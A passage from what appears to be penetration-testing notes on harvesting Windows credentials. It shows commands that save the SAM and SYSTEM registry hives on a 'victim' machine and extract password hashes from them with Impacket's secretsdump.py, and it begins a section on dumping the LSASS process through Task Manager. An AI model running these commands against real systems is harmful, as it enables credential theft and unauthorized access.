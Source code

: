 **Victim(cmd)**

```
reg save HKLM\sam C:\users\$USER\Desktop\sam-reg
reg save HKLM\system C:\users\$USER\Desktop\system-reg
```

Let's this time decrypt it using one of the Impacket tools: `secretsdump.py.`The Impacket SecretsDump script extracts credentials from a system locally and remotely using different techniques.

Move both SAM and system files back to Kali

**Kali**&#x20;

```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam-reg -system system-reg LOCAL
```

### Local Security Authority Subsystem Service (LSASS)

**Example**

[credential-harvesting.md](credential-harvesting.md "mention")

#### Graphic User Interface (GUI)

To dump any running Windows process using the GUI, open the Task Manager, and from the Details tab, find the required process, right-click on it, and select "Create dump file".

![](<../../.gitbook/assets/image (7) (1) (4) (2).png>)
